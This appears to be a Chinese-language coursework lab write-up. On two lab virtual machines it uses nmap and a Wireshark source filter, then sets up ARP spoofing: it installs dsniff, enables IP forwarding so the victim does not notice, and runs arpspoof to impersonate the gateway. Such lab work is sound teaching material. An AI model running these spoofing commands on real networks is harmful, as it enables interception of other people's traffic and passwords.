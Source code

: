 



* 1、A主机上外网，B运行sinffer(Wireshark)选定只抓源为A的数据)。	

* * 1.1 写出以上过滤语句。

* * 1.2 B是否能看到A和外网的通信（A刚输入的帐户和口令）？为什么？



这里开了两个虚拟机，一个是kali(192.168.118.128)，即B,一个是win10(192.168.118.132)，即A

先用nmap 扫一下看看

![](https://raw.githubusercontent.com/todis21/image/main/img/image-20211123230256003.png)

一点问题都没有，继续下一步

kali打开Wireshark抓包，用win10 ping一下kali

![image-20211123231447162](https://raw.githubusercontent.com/todis21/image/main/img/image-20211123231447162.png)

![image-20211123231514291](https://raw.githubusercontent.com/todis21/image/main/img/image-20211123231514291.png)

过滤语句是

```
ip.src==192.168.118.132
```

因为ping是使用ICMP协议的，所以找到ICMP,下面的Data即为ping的内容







* 2.1 为了捕获A到外网的数据，B实施ARP欺骗攻击，B将冒充该子网的什么实体？

> B冒充的是子网中的网关

* 2.2 写出arpspoof命令格式。

> arpspoof -i 指定使用的网卡 -t 要欺骗的主机ip   冒充的网关

如果arpspoof没有安装,执行下面命令

```
sudo apt-get install dsniff
```

为了不让靶机使用者发现，需要他打开端口转发，不然B主机没法上网

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

因为我使用的是两虚拟机，NAT模式下进行，`kali(192.168.118.128),win10(192.168.118.132)`,网关`192.168.118.2`

```
先执行这个
echo 1 > /proc/sys/net/ipv4/ip_forward
再执行这个
arpspoof -i eth0 -t 192.168.118.132 192.168.118.2
```
